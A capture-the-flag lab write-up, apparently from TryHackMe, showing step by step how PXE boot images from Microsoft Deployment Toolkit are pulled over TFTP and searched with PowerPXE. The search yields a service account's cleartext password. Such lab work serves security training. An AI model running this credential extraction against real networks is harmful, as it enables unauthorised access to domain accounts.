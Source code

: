 # Microsoft Deployment Toolkit(MDT)
- MDT is used for updating workstation OS on the network without needing to configure every workstation, and other essential uses
- For this room we are only see Preboot Execution Environment (PXE) configuration.
- On going to (http://pxeboot.za.tryhackme.com/), found many `*.bcd` files, for this room we will focus only on `x64{4DD03F83-2453-49E5-859A-EAA1E0DE38EA}.bcd`

## Process
- Secure shelled to workstation on which we would like to add new OS.

```console
❯ ssh thm@THMJMP1.za.tryhackme.com
The authenticity of host 'thmjmp1.za.tryhackme.com (10.200.24.248)' can't be established.
ED25519 key fingerprint is SHA256:50ZqYlTFUYKTHHPzgPNzG0gSydLnknXL0Ea7lUs7tT8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'thmjmp1.za.tryhackme.com' (ED25519) to the list of known hosts.
thm@thmjmp1.za.tryhackme.com's password:

Microsoft Windows [Version 10.0.17763.1098]
(c) 2018 Microsoft Corporation. All rights reserved.

thm@THMJMP1 C:\Users\thm>cd Documents

```
- Made a new directory under Documents with username

```console
thm@THMJMP1 C:\Users\thm\Documents>mkdir divu050704
```

- Copied `powerpxe` [tool](https://github.com/wavestone-cdt/powerpxe) to this directory.

```console
thm@THMJMP1 C:\Users\thm\Documents>copy C:\powerpxe divu050704\
C:\powerpxe\LICENSE
C:\powerpxe\PowerPXE.ps1
C:\powerpxe\README.md
        3 file(s) copied.
thm@THMJMP1 C:\Users\thm\Documents>cd divu050704
thm@THMJMP1 C:\Users\thm\Documents\divu050704>dir
 Volume in drive C is Windows
 Volume Serial Number is 1634-22A9
 Directory of C:\Users\thm\Documents\divu050704
11/09/2022  12:21 PM    <DIR>          .
11/09/2022  12:21 PM    <DIR>          ..
03/03/2022  08:54 PM             1,098 LICENSE
03/03/2022  08:54 PM            98,573 PowerPXE.ps1
03/03/2022  08:54 PM             2,144 README.md
               3 File(s)        101,815 bytes
               2 Dir(s)  49,312,903,168 bytes free
```
- Downloaded `*.bcd` file we talked about earlier as `conf.bcd`.

```console
thm@THMJMP1 C:\Users\thm\Documents\divu050704>tftp -i 10.200.24.202 GET "\Tmp\x64{4DD03F83-2453-49E5-859A-EAA1E0DE38EA}.bcd" conf.bcd
Transfer successful: 12288 bytes in 1 second(s), 12288 bytes/s

```
- Started powershell with bypass `executionpolicy`

```console
thm@THMJMP1 C:\Users\thm\Documents\divu050704>powershell -executionpolicy bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\thm\Documents\divu050704> ls


    Directory: C:\Users\thm\Documents\divu050704


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        11/9/2022  12:24 PM          12288 conf.bcd
-a----         3/3/2022   8:54 PM           1098 LICENSE
-a----         3/3/2022   8:54 PM          98573 PowerPXE.ps1
-a----         3/3/2022   8:54 PM           2144 README.md
```

- Imported module from `PowerPXE.ps1`
```console
PS C:\Users\thm\Documents\divu050704> Import-Module .\PowerPXE.ps1
```

- Got `wimfile` path for `conf.bcd`

```console
PS C:\Users\thm\Documents\divu050704> Get-WimFile -bcdFile .\conf.bcd
>> Parse the BCD file: .\conf.bcd
>>>> Identify wim file : \Boot\x64\Images\LiteTouchPE_x64.wim
\Boot\x64\Images\LiteTouchPE_x64.wim
```

- Downloaded this `wimfile` as `pxboot.wim`

```console
PS C:\Users\thm\Documents\divu050704> tftp -i 10.200.24.202 GET "\Boot\x64\Images\LiteTouchPE_x64.wim" pxboot.wim
Transfer successful: 341899611 bytes in 225 second(s), 1519553 bytes/s
```

- Searched for credentials in the `wimfile` 

```console
PS C:\Users\thm\Documents\divu050704> Get-FindCredentials -WimFile .\pxboot.wim
>> Open .\pxboot.wim
New-Item : An item with the specified name C:\Users\thm\Documents\divu050704\ already exists.
At C:\Users\thm\Documents\divu050704\PowerPXE.ps1:212 char:13
+     $null = New-Item -ItemType directory -Path $WimDir
+             ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceExists: (C:\Users\thm\Documents\divu050704\:String) [New-Item], IOException
    + FullyQualifiedErrorId : DirectoryExist,Microsoft.PowerShell.Commands.NewItemCommand

>>>> Finding Bootstrap.ini
>>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$
>>>> >>>> UserID = svcMDT
>>>> >>>> UserDomain = ZA
>>>> >>>> UserPassword = PXEBootSecure1@
```

- Got password: `PXEBootSecure1@` for user: `svcMDT`
